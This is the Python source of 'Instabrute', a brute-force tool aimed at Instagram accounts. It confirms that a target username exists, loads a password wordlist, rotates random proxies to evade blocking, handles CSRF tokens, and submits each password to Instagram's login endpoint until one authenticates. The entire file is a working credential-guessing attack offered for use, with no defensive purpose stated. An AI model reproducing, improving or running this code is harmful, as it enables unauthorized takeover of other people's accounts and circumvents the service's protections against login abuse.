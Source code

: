 
'''
TODO LIST:
	Fix and make proxy function better
	Sort code again
	Add help function to all "Yes/no" questions
	Add help  function to "Press enter to exit input"
'''
import requests
import json
import time
import os
import random
import sys

#Help function
def Input(text):
	value = ''
	if sys.version_info.major > 2:
		value = input(text)
	else:
		value = raw_input(text)
	return str(value)

#The main class
class Instabrute():
	def __init__(self, username, passwordsFile='pass.txt'):
		self.username = username
		self.CurrentProxy = ''
		self.UsedProxys = []
		self.passwordsFile = passwordsFile

		#Check if passwords file exists
		self.loadPasswords()
		#Check if username exists
		self.IsUserExists()


		UsePorxy = Input('[*] Do you want to use proxy (y/n): ').upper()
		if (UsePorxy == 'Y' or UsePorxy == 'YES'):
			self.randomProxy()


	#Check if password file exists and check if he contain passwords
	def loadPasswords(self):
		if os.path.isfile(self.passwordsFile):
			with open(self.passwordsFile) as f:
				self.passwords = f.read().splitlines()
				passwordsNumber = len(self.passwords)
				if (passwordsNumber > 0):
					print ('[*] %s Passwords loads successfully' % passwordsNumber)
				else:
					print('Password file are empty, Please add passwords to it.')
					Input('[*] Press enter to exit')
					exit()
		else:
			print ('Please create passwords file named "%s"' % self.passwordsFile)
			Input('[*] Press enter to exit')
			exit()

	#Choose random proxy from proxys file
	def randomProxy(self):
		plist = open('proxy.txt').read().splitlines()
		proxy = random.choice(plist)

		if not proxy in self.UsedProxys:
			self.CurrentProxy = proxy
			self.UsedProxys.append(proxy)
		try:
			print('')
			print('[*] Check new ip...')
			print ('[*] Your public ip: %s' % requests.get('http://myexternalip.com/raw', proxies={ "http": proxy, "https": proxy },timeout=10.0).text)
		except Exception as e:
			print  ('[*] Can\'t reach proxy "%s"' % proxy)
		print('')


	#Check if username exists in instagram server
	def IsUserExists(self):
		r = requests.get('https://www.instagram.com/%s/?__a=1' % self.username) 
		if (r.status_code == 404):
			print ('[*] User named "%s" not found' % username)
			Input('[*] Press enter to exit')
			exit()
		elif (r.status_code == 200):
			return True

	#Try to login with password
	def Login(self, password):
		sess = requests.Session()

		if len(self.CurrentProxy) > 0:
			sess.proxies = { "http": self.CurrentProxy, "https": self.CurrentProxy }

		#build requests headers
		sess.cookies.update ({'sessionid' : '', 'mid' : '', 'ig_pr' : '1', 'ig_vw' : '1920', 'csrftoken' : '',  's_network' : '', 'ds_user_id' : ''})
		sess.headers.update({
			'UserAgent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36',
			'x-instagram-ajax':'1',
			'X-Requested-With': 'XMLHttpRequest',
			'origin': 'https://www.instagram.com',
			'ContentType' : 'application/x-www-form-urlencoded',
			'Connection': 'keep-alive',
			'Accept': '*/*',
			'Referer': 'https://www.instagram.com',
			'authority': 'www.instagram.com',
			'Host' : 'www.instagram.com',
			'Accept-Language' : 'en-US;q=0.6,en;q=0.4',
			'Accept-Encoding' : 'gzip, deflate'
		})

		#Update token after enter to the site
		r = sess.get('https://www.instagram.com/') 
		sess.headers.update({'X-CSRFToken' : r.cookies.get_dict()['csrftoken']})

		#Update token after login to the site 
		r = sess.post('https://www.instagram.com/accounts/login/ajax/', data={'username':self.username, 'password':password}, allow_redirects=True)
		sess.headers.update({'X-CSRFToken' : r.cookies.get_dict()['csrftoken']})

		#parse response
		data = json.loads(r.text)
		if (data['status'] == 'fail'):
			print (data['message'])

			UsePorxy = Input('[*] Do you want to use proxy (y/n): ').upper()
			if (UsePorxy == 'Y' or UsePorxy == 'YES'):
				print ('[$] Try to use proxy after fail.')
				randomProxy() #Check that, may contain bugs
			return False

		#return session if password is correct 
		if (data['authenticated'] == True):
			return sess 
		else:
			return False






instabrute = Instabrute(Input('Please enter a username: '))

try:
	delayLoop = int(Input('[*] Please add delay between the bruteforce action (in seconds): ')) 
except Exception as e:
	print ('[*] Error, software use the defult value "4"')
	delayLoop = 4
print ('')



for password in instabrute.passwords:
	sess = instabrute.Login(password)
	if sess:
		print ('[*] Login success %s' % [instabrute.username,password])
	else:
		print ('[*] Password incorrect [%s]' % password)

	try:
		time.sleep(delayLoop)
	except KeyboardInterrupt:
		WantToExit = str(Input('Type y/n to exit: ')).upper()
		if (WantToExit == 'Y' or WantToExit == 'YES'):
			exit()
		else:
			continue
